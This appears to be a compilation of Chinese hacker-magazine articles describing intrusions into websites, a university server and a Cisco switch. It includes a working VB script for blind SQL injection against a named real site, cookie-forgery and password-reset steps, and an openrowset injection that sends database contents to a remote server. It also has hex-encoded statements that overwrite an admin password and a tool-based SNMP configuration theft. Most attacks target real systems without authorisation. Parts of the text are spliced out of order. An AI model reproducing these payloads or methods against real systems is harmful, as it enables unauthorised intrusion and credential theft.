继续手工 and '1'='1' 看看，因为在图3中看到 `SELECT * FROM p7_counter WHERE 'id'='1'`，参数是被单引号引起来了的，所以这里是字符型的注入，而不是数字型的。测试结果如图4、图5，能说明存在 SQL injection，并且 magic_quote_gpc=off！因为单引号并没有被转义为 `\'`。但是图4和图5显示的是什么东西呢？研究了下，原来是网站的统计数据，是通过 JavaScript 的 `document.write('')` 来显示图片的，注入语句为真时就显示正确的网站访问人数，反之显示效果就如图5。


图2


图3


图4


图5

这里我们并不能由 union 来得到管理员的账号和密码了，虽然通过错误提示我们看到安装的表名前缀是 “p7_”。看来只能通过手工猜测管理员了，这是一项累人的活。

搞了这么半天，还不知道自己搞的站是干什么的呢，打开主页一看，晕了，发现是提供 CMS 下载的站，这个网站是 CMS 的官方站，下套他们的程序下来看看就知道表的结构了，至少省了点力气。

下载他们的 CMS 回来安装好，发现代码都经过 Zend 加密过了，先不管，看看表结构再说。从 phpMyAdmin 里看到所有用户的信息都在 users 表里，这里有个恶意注册管理员的 bug，这个后面再说。

通过分析知道，admin 和 groupid 为 1 时就是管理员，所以构造的注入语句为 “and 1=(select min(userid) from p7_users where admin='1' and groupid='1' and ord(mid(username,1,1))=97)/*”。

如果管理员的用户名第一位为 a（a 的 ASCII 码值为 97），这条语句就是正确的，页面上会显示正确的统计数。在猜之前得知道管理员名字的长度，修改注入语句为 “and 1=(select min(userid) from p7_users where admin='1' and groupid='1' and length(username)=S)/*”，不断变换符号 S 的值来确定管理员名的长度，最后确定长度为 6。

然后开始猜解，十几分钟后得到管理员名字为 jieyun！哎呀妈呀，可累死我了，管理员的密码是 32 位，手工猜可太痛苦了，我还是用 VB 编个程序吧。说干就干，程序代码如下，懂 ASP 里 VBScript 的朋友应该看得懂吧？

```vb
Function BytesToBstr(body, Cset)
Dim objstream
Set objstream = CreateObject("adodb.stream")
objstream.Type = 1
objstream.Mode = 3
objstream.Open
objstream.Write body
objstream.Position = 0
objstream.Type = 2
objstream.Charset = Cset
BytesToBstr = objstream.ReadText
objstream.Close
Set objstream = Nothing
End Function

Private Sub Command1_Click()
Dim getc, ii
Set getc = CreateObject("Microsoft.XMLHTTP")
For ii = 1 To 32
    For i = 48 To 122
        DoEvents
        getc.Open "GET", "http://hugesky.com/counter/counter.php?id=1' and 1=(select userid from p7_users where admin='1' and username='jieyun' and ord(mid(password," + CStr(ii) + ",1))=" + CStr(i) + ")/*", false
        getc.send
        tmp = BytesToBstr(getc.responseBody, "UTF-8")
        If InStr(tmp, "nums/019/7.gif") Then
            pass = pass + Chr(i)
            Exit For
        End If
    Next
    Text1.Text = pass
Next
If Text1.Text <> "" Then
    MsgBox "OK"
End If
End Sub
```

这个程序的功能是从页面返回来的数据里判断是否有“nums/019/7.gif”这串字符串来知道页面是否猜测正确，如果有，则正确，反之则错误。程序运行结果如图6。


得到管理员密码后到 cmd5 查了下，没有查出来，继续郁闷……没办法，只有看看 PHP 程序代码是否有问题了。网上下了个 dezend 工具将管理员登录文件解码看看：

```php
if ( !empty( $_SESSION['sess_user'] ) )
{
    $adminu = $_SESSION['sess_user'];
}
else if ( !empty( $_COOKIE['cook_user'] ) )
{
    $adminu = $_COOKIE['cook_user'];
}
else
{
    $adminu = "";
}
if ( !empty( $_SESSION['sess_pass'] ) )
{
    $adminp = $_SESSION['sess_pass'];
}
else if ( !empty( $_COOKIE['cook_pass'] ) )
{
    $adminp = $_COOKIE['cook_pass'];
}
else
{
    $adminp = "";
}
if ( !empty( $_SESSION['sess_u'] ) )
{
    $u = $_SESSION['sess_u'];
}
else if ( !empty( $_COOKIE['cook_u'] ) )
{
    $u = $_COOKIE['cook_u'];
}
else
{
    $u = "";
}
```

呵呵，很幽默，如果 session 里没值就到 cookie 找，殊不知 cookie 我们是可以伪造的啊？既然管理员登录页面有此问题，那普通用户登录也应该是这样了。

打开老兵的 MyWebBrowser，cookies 里添加一个 `cook_u=jieyun;cook_p=4297f44b13955235245b2497399d7a93`，修改地址 http://hugesky.com/usercon.php，点击连接，嘿，直接就进去了，如图7。


个人中心有个 bug，不用知道原密码就可以修改密码。我们修改密码为 123123，然后就可以登录后台了，如图8。


不过进去逛了下心就凉了，虽然是个系统管理员，但是什么权限都没有。不过不要灰心，此系统怪就怪在这里，这个管理员什么都不能做，但是最致命的数据库操作却可以。

这里我走了个小小的弯路，后台有个数据库升级功能，可以直接输入 SQL 来执行（比如 update 超级管理员密码或是 update 当前这个用户的权限），当时傻乎乎地没想到，利用数据库备份功能将 p7_users 的表的数据全部备份为一个 sql 文件然后下载回来，打开一看，发现第一个用户就是超级管理员，如图9。


还是利用相同的办法，cookie 欺骗进前台，修改用户密码为 123123，再登录后台。现在这个管理员就什么都可以做了，后台功能很强大，拿 shell 很简单了。新建一个模板，编辑模板，保存文件为 1.php 就行了，如图10。


图10

事后发现此站和我原打算搞的站不在同一服务器上，目标站的 IP 一直变啊，变，反查一下它就变一次 IP，给我整得很无言。到现在木有搞清楚用的什么技术，希望高手解答下。

### 三、事后分析

分析代码时提到一点，可以恶意注册管理员来达到目的，我们看代码：

```php
$res = $db_hs->query("INSERT INTO ".$tablepre."users (userid, username, sex, PASSWORD, groupid, admin, useremail, hidemail, headimg, homepage, oicq, icq, birthday, selfintroduce, signature, regtime, regip, lastlogtime, mdpsw, upvw, posttime, announceable, postnum, userstatus, ssick, real_name, real_name_e, address, postalcode, credential, education, marital, profession, phone_number, pass, pass_que, pass_ans, credits, begindate) VALUES (...) ");
```

```php
''.$selfintroduce.'', ''.$signature.'', ''.$swtime.'', ''.$regip.'', ''.$upvw.'', ''.$announceable.'', ''.$postnum.'', ''.$userstatus.'', ''.$ssick.'', $_POST['real_name'], ''.$_POST['real_name_e'].'', ''.$_POST['address'].'', ''.$_POST['postalcode'].'', ''.$_POST['credential'].'', ''.$_POST['education'].'', ''.$_POST['marital'].'', ''.$_POST['profession'].'', ''.$_POST['phone_number'].'', ''.$wpass.'', ''.$psw_que.'', ''.$psw_ans.'', ''.$credits.'', ''.$swtime.'')
```

代码挺多，我就不再贴了，里面有很多变量，但是变量多了难免出现过滤不严的情况，这里可以看到 `$_POST['real_name']` 没有过滤，我们可以构造“1','x','x'......(要添加的管理员”，总之要闭合好 SQL 语句，这样就可以直接注册管理员了。没有详细分析，大家勿喷西红柿或番茄，也不要丢土豆或马铃薯。

> 编辑点评：这个 MySQL 应当是 5.0 以上的，我记得在 MySQL 5.0 以下，是不可以用 and 连接两条 MySQL 语句的。

## 空气中的战争

图 OrphousV

这篇文章你是当作小说看还是当作说明文看呢？

你一个人走在大街上，尽管你看不到，尽管你听不到，但你一定要认识到：无线电波正穿过你的身体，你脚下的信息网络电缆又将某人的语言传输到一个未知的地方。无形的电波又有可能是一串攻击数据，而语言的内容或许正是策划即将发生在你身边的一起恐怖事件。

想到这里，今日的阳光不再温暖，它化作病刃，正割伤着你的身体。仰望天空，箭如雨下；俯视大地，阴谋的虫子又在啃着你脚下的土地，缓慢蠕动……不禁有点让人不寒而栗，但这绝对不是危言耸听。

> “要想战胜恐惧；就要先成为恐惧的化身。”

经常听一些媒体说，未来的战争将会是信息战争，一种没有硝烟的战争。这话不假，轻轻敲击几下键盘，一场战争就会爆发。当然，这里所说的战争不是通常所讲的战争，而是小规模的信息攻击。然而这种战争的规模将会随着人类科技社会的进步而不断扩大。因此，我为自己现在还能站在各位眼前说话而庆幸。而作为人类中的一员，我为无线电波技术的发明感到骄傲，同时也为我自己的身体还能在夹杂有恶意信息的无线电波中屹立不倒而感到自豪。

如今无线技术正飞速发展，这是有目共睹的。中国的香港和台湾已经成为无线城，其它城市也在加大对无线技术的投入。而纽约、波士顿这类大城市，早已实现了无线信号的全部覆盖。在为无线给人们的生活带来便利而欣喜的同时，也不要忘记了天使和魔鬼往往都是统一的。无线技术，不仅给人带来了便利，还带来了梦魇。

战争，一触即发！

**无线战争（War-Xing）可以分为几类，其中最常见的当数 War-Driving、War-Walking、War-Pedaling（也称作 War-Biking）和 War-Chalking。**

War-Driving 的意思就是在车上进行无线攻击，这无疑是一种惬意的攻击方式。而 War-Drivers 使用的设备也往往像是电影里特工使用的，如图1、图2，不禁让我联想到 007 开的汽车。看 007 潇洒地开着那辆为他量身定做的汽车，真是一饱眼福。然而那不是科幻，它现在已经算是快要成为现实了。

车内的信号一般不怎么好，为了改善信号接收和发送状况，War-Drivers 通常都会加装外接天线。市场上出售的天线大体可分为定向天线、半向天线和全向天线。

定向天线通常应用于点对点的桥接上，而不用于客户端上。定向天线发射的无线电波可以传播很远，最远的甚至可以达到 30 公里。定向天线发送的信息对障碍物（如墙壁）的穿透力很弱，不过它只对特定方向发送信号，因此在使用前要进行精确的点对点。


图1


图2

## 无线战争

通过将全向天线调整到一个合适的覆盖角度，我们也能收到较为理想的效果。

半向天线则是综合了定向天线和全向天线的特点，它多用于短距离的桥接，常见的八木天线（Yagi）就属于半向天线。

为了获得无线接入点（AP，Access Point，又称为无线访问点）的更多信息，War-Driving 中通常会使用笔记本电脑外的其它辅助设备，比如使用全球定位系统（GPS）设备来得到 AP 直观的位置信息。

要用 GPS 进行辅助探测，首先得实现笔记本蓝牙模块与 GPS 设备的配对，如图3，并让 GPS 设备与串行端口服务连接，如图4。连接成功后，我们便可以看到当前连接的基本信息，如当前蓝牙串行端口服务的端口号，如图5。

接下来就可以更好地探测 AP 信息了。在 Linux 环境中有 Kismet、AiroPeek 等无线探测工具，也有基于 Linux 系统的鼎鼎大名的 BackTrack 3；而在 Windows 环境中，提到无线探测工具，就不得不提到 NetStumbler。作为公认的 Windows 下的最好无线探测工具，NetStumbler 的表现确实很不错。下面将以 NetStumbler 为例来介绍如何结合 GPS 进行无线探测。

全向天线，又称为偶极天线（Dipole Antennas）。与定向天线不同的是，全向天线向四周发射等量的能量，而不是只向单一的方向发送。当然，“鱼和熊掌，二者不可得兼”，全向天线在特定方向上发射的能量不及定向天线。尽管如此，要想获得更好的效果，我们也可以使用高增益的全向天线，以牺牲垂直作用的范围来换取水平作用的范围。

首先得在 NetStumbler 中的 GPS 选项卡里进行配置，包括端口、比特率的设置等，如图6。配置好后便可以开始搜索 AP 了，结果如图7。要注意的是，如果没有正确配置 GPS，那么 NetStumbler 便会在状态栏提示超时，如图8。

我们也可以使用 PDA 和 GPS 来收集信息。首先得在 PDA 上开启蓝牙功能，如图9，再进行对蓝牙设备的搜索，以实现 GPS 设备与 PDA 设备的配对。如图10，展示的是一外接 GPS 设备。搜索结果如图11，现在我们可以用 Mini GPS Viewer 进行一下卫星定位和信号强度测试，如图12、图13。

下面我们就可以用 WifiFoFum 进行信息收集了。在 WifiFoFum 的 GPS 设置选项卡中填写相应的参数后即可进行无线数据探测了，如图14、图15。从 WifiFoFum 中可以清楚看到 AP 的 MAC 地址和 SSID（Service Set Identifier，服务标识符）等信息。当然，你还可以选择一种更惬意的方式来进行无线信息收集，这种方式便是 War-Walking。War-Walking 不需要汽车，需要的只是两条可以走路的腿和一些必要的设备，最好是 PDA 这种小型的设备。要明白，拿个笔记本电脑在街上穿梭真的是十分惹眼，因此这对商业间谍来讲是绝对不允许的，如图16、图17。

事实上，如果你是一个不折不扣的懒人，想尽量多省事，也可以直接在网上搜索 AP Hotspot 地图，如图18。尽管我要说这可不是什么好品质。不过，国内的无线行业还远不及国外的水平，如今国外的无线爱好者已经绘制了许多地区的 AP Hotspot 地图，然而国内在这一块却还几乎是空白。

War-Pedaling 与 War-Driving 类似，只不过交通工具不同。而 War-Chalking，则是通过在路边的建筑物上做标记来给他人提供无线网络信息，就算是 War-Chalking 了，如图19。要注意的是，国外一些地区的管理很严，在公共场所乱涂乱画可是要罚款的，国内也不要随意这样做，爱护公物，人人有责嘛。一个人走在大街上，空中的电波继续传播着，恶意的信号还在发出刺耳的尖叫。但，心明，则万籁俱寂。现在你只需要走路。当然，你也可以戴上耳机，听着音乐，还可以捧杯茶或咖啡暖暖手，尽情享受这冬日的阳光。就在这时，耳机里突然传来说耳的声音：“发现无线访问点……”

写在文外的话：暂且讲到这里了，无线渗透还有其它应用，诸如蓝牙入侵。蓝牙手机已经十分普遍，这在另一方面也意味着安全问题会普遍存在，个人的通话等隐私也因此受到威胁。这里只是提供一个思路，不要只把注意力投入到黑站等其它传统攻击方式上。这里还要强调一下，白帽子是黑客的唯一出路，尊重别人的隐私是我们的义务。

> [NetStumbler 已经收集在本期光盘中]

编辑点评：作者的这种抒情性的写法我是不同意的，科普文章就是说说明文！在本栏目中把工具的用法、入侵的技巧狠狠白话地说清楚就好，而不是这样的废话一大堆。读者看完却对无线入侵的方法了解得只是隔靴搔痒，换句白话文来讲，就是作者没有写到点子上，有点离题了，就好像当作抒情文来写。从文风上较容易看出作者年纪还小，如果你对写作有兴趣的话，我在这里劝你一句，好文章的文采贵在朴实，那是骨子里的华丽，而不是你这样的词藻堆砌。不过毕竟写无线入侵的文章极少，所以我才发表了这一篇文章。

## 利用 SHELL INJECTION 进行入侵

前天晚上通宵写程序，到昨天早上 9 点基本完成，正准备去睡觉，突然 friddy 大牛在群里发了两个站，说是出 6000 收。6000 两个站，那一个不就是 3000 了？什么站这么值钱啊？在好奇心的驱使下，点开第一个 URL 看了一下，http://www.XXX.com/，好像是什么大学生求职、兼职类型的网站，如图1。

这年头，大学生找个工作也不容易啊，更别说我们这些没上大学的人了。突然一时手痒，想起自己已经很久没入侵网站了，技术放着不用可是要退步的，试试自己还能不能拿下这样的网站吧。另外，图是过后才截的，可能跟原过程在细节上有些出入。

先扫了一下后台，如图2，结果蛮丰富的，不光扫到了后台，还有 eWebEditor 和 FCKeditor，还带个论坛。接着去看了下，eWeb 删了后台，FCK 禁用了上传，都没办法利用。废话，要是那么容易，人家能出 3000 收吗？论坛是 DV 8.2 的，手里又没 0day，看来只有从主站下手了。

随便打开一个链接 `http://www.XXX.com/ppca/MoreLog.asp?classid=4&classname=D%6%B0%B3%A1%D0%C4%B5%C3`，把后面的 classname 参数去掉，依然正常显示。来看看前面这个参数有没有注入的问题吧，一般人测试注射喜欢在后面加个引号，我比较习惯先随便加两个字母，看看是不是限制了纯数字的注入。如果是纯数字，我就不浪费时间了，结果如图3，看来注射是存在的，`and 1=1` 之后，防注提示出来了，如图4。

`/**/1=1`，成功了，如图5，于是就开始注射了。

SHELL INJECTION 这个是我自己写的注射工具，用起来有点麻烦，不支持暴力猜解，不过对付一些非常规的注射点比较好用，嘿嘿。填好参数就开始了，先从 sysobjects 里猜表试试，结果郁闷的事情又发生了，如图6。

真奇怪，我明明已经选了用 `/**/` 来代替空格，怎么还是被过滤了？找了半天，原来是单独过滤了 `where` 关键字，另外还过滤了 `char` 函数。char 是连带 `(` 一起过滤的，只要在中间插入分隔符，如 `char/**/(` 的形式就可以绕过，我的工具里有这个功能。但是 where 是不带空格或者标记过滤的，试了下，不用 where 的 SQL 语句可以正常执行，如图7。

但是这样的话就只能取第一行数据了，来试试 union 吧，union 正常执行的话应该能取得所有行。order by xx 测得一共 select 了 12 列，`and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12`` 测得显示数据的字段一共有 1、7、9、11 几列。但是 union 一下，又出问题了，如图8。

跟报错模式的结果一模一样，真奇怪，因为已经用 `and 1=2` 把前面的结果集置空了，照理说不应该出现数据类型不兼容的问题啊？因为看不到代码，你也不会知道程序里是怎么处理语句的，那边做了什么手脚。字典扫一下表试试，如果运气好取到第一个管理员的密码直接就进去了。结果一个都没扫出来，看来常规的方法是没办法搞了。

看样子不像是通用防注入程序，感觉是自己写的函数，试了一下 cookie 注射，果然不行。在 URL 后面直接跟个 and 呢？没有过滤，语句出错了，带空格过滤很容易绕过，试一下 `/**/and/`。

这时我想起昨晚通宵都在写的 shell injection 2.0 版本，里面我新加入了一个 MSSQL 环境注射用 openrowset 函数来取数据的功能。虽然工具还没全部完成，但是已经基本上可以用了。

于是传到 webshell 上，没想到报错了，原来这个版本是用 ASPX 写的，虚拟机里是 .NET 2.0 环境，没有测试 .NET 1.1 下的兼容问题。手上几个支持 ASPX 的 webshell 都是 1.1 的，一时半会我也懒得改了，先在虚拟机里凑合用吧。因为不知道 friddy 要这个站来干什么，就开了个 VPN。

设置好 openrowset 的参数，如图9，然后点“确定”，一看回显，又都挂了，如图10所示。

不知道遇到什么错误了，去数据库里看一下，内容确实没发送过去。现在怎么办呢？经验告诉我，很多时候遇到这种情况，换个注射点就 OK 了。于是重新去首页晃荡，找了几个点都不好，这时看到首页右上角的搜索框，随便输个关键字，回显正常，后面跟个 `'`，出错了，如图11。

看看，语句都报出来了，后来发现，只要执行出错就会出这个提示信息，可不是关键字被过滤。OK，找出点子就不用费尽心思去猜了，我们来看参数，在首页按右键，选择“查看源码”，如图12。

可以看到，参数名是 SearchKeyValue，表单是 POST 的。试试 GET 方式传递的参数能收到吗？直接输入 `http://www.XXX.com/jianzhi/jianzhi.asp?SearchKeyValue=厦门`，回显正常，`http://www.XXX.com/jianzhi/jianzhi.asp?SearchKeyValue=厦门%25'--`，也正常。

填好参数开始吧，向远程数据库里发送本地数据的语句如下：

```sql
insert openrowset('sqloledb','server=xxx.xxx.xxx.xxx;uid=xx;pwd=xx','select * from tempdb..#tmp') select top 100 [name] from [sysobjects] where xtype='u'
```

因为过滤了很多东西，所以转成 16 进制，然后发送，效果如图13：

```sql
declare @a varchar(4000); set @a=0x...; exec(@a)--
```

经过了重重的曲折，终于把表爆出来了，oh~yeah~！然后看到管理表是 ppca_admin，难怪刚才字典没猜到，然后一路下去，猜列、猜内容……，如图14。

| 步骤 | 内容 |
|---|---|
| 联合查询表 | `...SearchKeyValue=厦门%') and 1=2 union all select ... from ppca_admin...` |
| 暴力猜库 | `...` |
| 猜字段 | `...` |
| 获取 union 方式结果 | `select 7,8,...` |
| 获取 union 列数 | `... order by 10--` |
| 获取结果返回位置 | `... union all select null,null,null from ppca_admin...` |
| 手动 | `... char(94)...` |
| 回显 | `... password from ppca_admin...` |

嗯嗯，密码爆出来了哈，去了几个破解 MD5 的站点，都没破开。算了，直接 update 他密码吧，进去改给他回来就完了。构造语句 `update ppca_admin set password='49ba59abbe56e057' where username='admin'`，其中 `49ba59abbe56e057` 是 `123456` 的 MD5 值。全部转换为 16 进制，即：

```sql
declare @a varchar(255); set @a=0x75706461746520707063615f61646d696e207365742070617373776f72643d27343962613539616262653536653035372720776865726520757365726e616d653d2761646d696e27; exec(@a)
```

怎么办呢？有个办法，用 openrowset 弹回来连自己的机子，就可以抓到对方的 IP 了，不过这样也会暴露自己的 IP。不管这么多了，关掉 VPN，然后反弹连接自己，如图17。

看到他的 IP 了，嘿嘿，反查一下，如图18。

一共 30 多个站呢，不过都是他自己的，不是虚拟主机。注意被选中的那个，原来 web 跟 data 没有分离。我信心大增，重新列一下目录，最后发现 `e:\XXXX\` 下的 `wwwroot` 和 `wwwroot2` 这两个目录比较可疑（刚才都列到 G 盘去了，昨晚没发现呢，我汗～）。

先列一下 `wwwroot`，然后在里面选了几个名字比较生僻的文件去跟网站里的对照，发现文件都存在，嘿嘿，看来就是它了，备份一下试试。

setp1、setp2、setp3、setp4……备份完成，现在可以访问 webshell 了 ^^。打开试试，报 404 错误，郁闷，重新列一下目录，如图19。

发现是成功备份出去了的，看来这个不是 web 目录，那另外那个 `wwwroot2` 呢？懒得列了，直接备份吧。setp1、setp2、setp3、setp4……备份完成，现在可以访问 webshell 了 ^^，如图20。

咦……看来密码不是标准的 MD5，那就不从后台下手了，列目录直接备份吧。

列了半天目录，找到了好几个 web 路径，都不是这个站的，郁闷。说不定是 web 跟数据库分离了。对了，先看下权限吧，如图16。竟然是个 sa！真失败，开始一直都没去看。如果一切顺利的话，就直接加个账号进 3389 了。扫下端口，只开了 21、80 和 3306（后来重新扫的时候居然开 1433 了，真诡异）。没有 1433，有可能是分离了，也可能是防火墙。

既然是 sa，ipconfig 一下看看吧。xp_cmdshell 执行一下 ipconfig，然后去猜数据，结果为空——郁闷。尝试用 sp_oacreate 和沙盒执行，都失败了；尝试恢复 xp_cmdshell 也一样。因为 ASP 执行 MSSQL 语句，分号后面的语句出错是不会有提示的，所以也没办法知道问题出在哪里。

## 路由器交换机入侵方法大揭密

强鸿铭／执蒸

**本文介绍了一种入侵路由器的方法**

这篇文章我想献给我的女朋友张淼，看着微笑的你，突然发现，我真是世界上最幸福的人，愿她在以后的工作、生活中开心、快乐、漂亮，忘掉一切不愉快的事。

大家好，最近在加强学习网络知识，了解网络相关设备，并从中发现，路由器和交换机在默认配置下存在严重的安全漏洞，如果不修改相关的默认配置，攻击者很容易就能拿到路由器或交换机的控制权。这里我们主要讨论一下思科路由器或交换机的相关安全问题，因为下面的工具主要是针对思科路由器和交换机的安全测试。

在讲思科路由器和交换机的攻击方法之前，首先给大家介绍一下 SNMP。**SNMP（Simple Network Management Protocol，即简单网络管理协议）** 的前身是简单网关监控协议（SGMP），是用来对通信线路进行管理的。SNMP 的目标是管理互联网 Internet 上众多厂家生产的软硬件平台，因此 SNMP 受 Internet 标准网络管理框架的影响也很大。

现在 SNMP 已经出现第三个版本的协议，其功能较以前已经大大地加强和改进了。但是，目前大部分网络设备还在使用第二个版本的协议，存在很多安全问题。SNMP 不仅存在于网络设备中，还存在于操作系统中，如 Windows、Linux、Unix 都有，还有专门针对 SNMP 的主机漏洞扫描器。

由于使用 SNMP 服务可以大大地简化网络的管理和维护，而且效果显著，所以网络硬件厂商开始把 SNMP 加入到它们制造的每一台设备中。今天，各种网络设备上都可以看到默认启用的 SNMP 服务，从交换机到路由器，从防火墙到网络打印机，无一例外。但是，许多厂商安装的 SNMP 都采用了默认的通信字符串（例如密码），这些通信字符串是程序获取设备信息和修改配置所必不可少的。采用默认通信字符串的好处是网络上的软件可以直接访问设备，无需经过复杂的配置；但也给攻击者带来便利。最常见的默认通信字符串是 public（只读）和 private（读／写），除此之外还有许多厂商私有的默认通信字符串。其实，几乎所有运行 SNMP 的网络设备上，都可以找到某种形式的默认通信字符串。

在思科的大部分路由器和交换机的默认配置中，存在默认通信字符串是 public（只读），有一部分存在 private（读／写）。如果默认通信字符串是 private，攻击者就可以利用相关的工具把路由器或交换机的配置下载下来，通过配置文件得到路由器或交换机的管理口令，以及其它相关信息。

下面，我就以思科 2950 交换机为例，给大家详细讲解一下路由器或交换机的攻击过程。为了这次攻击测试，我在本地搭建了一个模拟环境，交换机使用的是思科 2950 型号，本机电脑配置的 IP 地址是 10.100.246.3，交换机配置的 IP 地址是 10.100.246.8。

这里我们还要使用一款思科网络设备攻击工具，名叫 SolarWinds，中文名叫太阳风，可以攻击思科路由器和交换机。下面大家就跟我一起进入这次思科交换机攻击测试吧。

- 1. 本机电脑配置的 IP 地址是 10.100.246.3，如图 1。
- 2. 交换机配置的 IP 地址是 10.100.246.8，如图 2。


我这边也没装客户端。算了，就这样吧，提权也不是我的专长，就不继续了。去群里喊了声，friddy 牛没反应了，反正也不是为了卖钱才搞的，就当练手吧。花了一上午时间搞定，看来这么久没侵也没有明显退步，嘿嘿……

> 编辑点评：我在网上找到了 SHELL INJECTION 1.5 版本，用了一下，就是感觉真的是非常难用，用户界面非常不友好。不过作者用自己写的工具入侵是非常有成就感吧，也希望尽快看到你的 2.0 版本，同时也希望改一下用户界面，发布出来的工具不能只受自己用着爽或者行哦。

- 3. 启动 SolarWinds（太阳风）工具，选中“Discovery”中的“IP Network Browser”工具，然后输入交换机的 IP 地址 10.100.246.8 进行扫描，结果如图 3。

从图 3 中我们可以看出，在默认情况下，交换机的默认通信字符串是 private（读／写），这时攻击者可以对交换机的配置文件进行读／写操作，而且还可以自己添加字符串上去，让扫描器按添加的字符串进行扫描。

这里我把默认通信字符串是 `private`（读／写）的配置文件下载下来，还是利用 SolarWinds（太阳风）工具，选中 “Cisco Tools” 中的 “Download Config” 工具，另外也可以添加其它的 SNMP 通信字符串，直接输入其它通信字符串的值，然后就可以添加进去，下载交换机的配置文件，如图 4。

这里工具默认会把交换机的配置文件下载到 C 盘 `tftp-root` 目录下，我们来打开配置文件看看，如图 5。

从下载的配置文件中，我们可以看到交换机口令没有进行强加密，可以破解。SolarWinds（太阳风）也集成了交换机口令破解工具，名称叫 `Router Password Decryption`。我们把以 7 开头的口令添加到破解工具中，点击工具上的 decrypt 就可以成功破解出交换机口令，如图 6。

破解出来的明文口令是 `cisco`，我们现在利用刚才破解出来的口令进行登录，如图 7，成功！我们再来显示一下交换机现在的登录用户数，如图 8。

从 IP 地址上看得出，只有我一个人登录交换机。思科交换机攻击测试过程到这里就结束了，我们可以看出，交换机使用默认通信字符串会对其造成严重的安全危害。文章中的工具和相关资料我会打包，有什么不明白的地方可以到《黑客手册》论坛给我留言，我 ID 号是 `rabbitsafe`。

> 编辑点评：rabbitsafe 写的文章我就不说什么了，大家看就是了。

## 我的入侵笔记

## XJ 所在大学的安全检测

本文注意的是作者的入侵思路，技术还是哪一些。

图 Dream an end

### 一、前言

我的时光在攻与防的生活中转瞬即逝，还没来得及总结成长的经验，大二的上半年就悄悄溜走了。在这半年里，由于太忙，从没细心地对我们大学做过安全检测，为了这半年不留遗憾，在考试的最后一天，对其中的服务器做了次检测，也算学到了点东西，与大家分享下。

### 二、目标

我们大学网站的主站都是静态页，而且安全措施很好，暂时没什么搞头（毕竟是主站）。今天的目标是学校期刊网的一台服务器 http://221.192.**.69:222。

### 三、刺探

早上起来，用了点时间收集信息，其实以前也一直在收集。因为想知道网站哪有问题，当然要先全面地了解一下它的结构。最后发现网站是用 JSP+Tomcat+MSSQL 这样的组合架设的，从 http://221.192.**.69:222 看出，默认的 8080 端口被改成了 222 端口。

在传统的 JSP 入侵中，利用 Tomcat 默认后台直接拿 shell 是最简单的方法了，因为在安装 Tomcat 后都会有两个默认管理后台，它们分别是 `www.***.com/admin/` 目录和 `www.***.com/manager/html` 目录，如果默认账号和密码没有被管理员改掉的话，就可以直接从第二个后台登录进去上传 war 文件得到 shell。

这里我首先想到的就是尝试访问 Tomcat 默认后台，测试了下 `http://221.192.**.69:222/admin/`，果真跳到了默认后台页面，如图 1 所示。


接着以默认账号和密码 admin/admin 登录，失败！然后又换了几组默认的账号和密码，都不能登录，看来是管理员把账号和密码改掉了，这里也就不能利用了。

然后想到的就是注入。虽然 JSP 都是什么封装类的东西，安全性很好，可还是有一些程序员按照常规的写法来写程序，所以 JSP 也是有注入的。我在阿 D 里批量找注入，可是最后一个注入点也没找到，很是郁闷。

接着我找出 Icx 大牛写的那个 JSP 爆源码工具，看看是否可以爆出网站的源码。随便找个 JSP 页，按参数拉了，点“确定”之后，发现确实存在此漏洞，如图 2 所示。不过访问可遍历目录的时候，发现网站竟然存在遍历目录漏洞，如图 3 所示。


### 四、前行

遍历目录漏洞虽然在这里算不上高危的漏洞，可是至少可以让我们收集到关于网站的一些敏感信息。我在目录里看到了 `ewebeditor.jsp` 这个链接，因为知道 JSP 版的 eWebEditor 有的含有任意上传文件漏洞，所以只要可以访问，入侵就成功了一半。可是当我尝试访问的时候，提示却是禁止访问，不能利用。

接着我开始耐心地访问每个文件，试图从中得到些敏感信息。不出我的所料，大部分敏感文件都是禁止访问，除去那些前台可以看到的网页文件。半个小时后，当访问 `http://221.192.**.69:222/news/db/dbout.jsp` 文件时，爆出了网站中这个网页的绝对路径 `E:\Tomcat 5.0\work\Catalina\localhost\news\org\apache\jsp\db\dbout_jsp`，如图 4 所示。虽然现在这个路径对我还没有多大用途，但被人知道网站路径毕竟不是什么光荣的事。

把网站路径记下之后继续访问文件，在无意中访问进了一个投稿系统的页面，如图 5 所示。看到这里我想：既然是投稿系统，肯定有上传的地方啊？JSP 的上传一般都处理得不好，如果有上传的话，说不定会很轻松地拿到 shell。于是我就在这个系统里注册了个会员，进了会员后台后果然发现有上传稿件的地方。怀着激动的心情上传一个 JSP 一句话，可是却提示只允许上传 doc 文件。晕！我在文件名后面加个空格或点再上传，还是无法通过，看来这里也没有什么可利用的价值了。


### 五、进攻

正在很郁闷地想着突破上传的办法时，随手在刚才投稿系统的那个链接 `http://221.192.**.69:222/news/index2.jsp?journal_id=3` 后面加了个单引号，竟然发现老天给了我个不小的惊喜，出现报错信息了，如图 6 所示。

看来程序员百密一疏啊，网站还是有没有过滤的链接！赶紧把这个链接拿到阿 D 里去跑，看到结果我才感叹管理员的疏忽给他造成了多大的危害，竟然是个 sa 权限，如图 7 所示！

我们知道，JSP 默认就是以系统权限运行的，现在老天又给了我个 MSSQL 的 sa 权限，如果我拿不下服务器的话那真有点对不起读者了，呵呵。

我首先想到的就是上传一个 JSP 一句话上去，这样做事方便。那网站的绝对路径怎么办？列目录吗？不用，刚才我们爆出来的绝对路径就派上了用场，直接在阿 D 里填上路径 `E:\Tomcat 5.0\work\Catalina\localhost\news\org\apache\jsp\db\jsp`，然后上传，接着我就等着笑着访问一句话了。


### 六、受阻

本以为阿 D 显示上传成功了，我可以很顺利地得到 shell，可郁闷的是，访问 `jsp.jsp` 页面却是报 404 错误，显示不存在页面。心一下凉了一半，不甘心，再传一次，访问还是 404 错误，晕死！

我换 NBSI 试了试，上传提示成功，可是访问 `jsp.jsp` 还是 404 错误。然后尝试执行命令，没有回显，不知道是不是可以执行命令。

还是不甘心，换上强大的 Pangolin 再尝试一下，上传的结果还是和前面一样，不过发现用 Pangolin 可以成功地执行命令。

在 Pangolin 里执行 `ipconfig` 一下，竟然发现 IP 地址是 `211.68.***.222`，晕，看来是 Web 与数据库分离了，能在 Web 服务器上访问得到就怪了。


### 七、继续

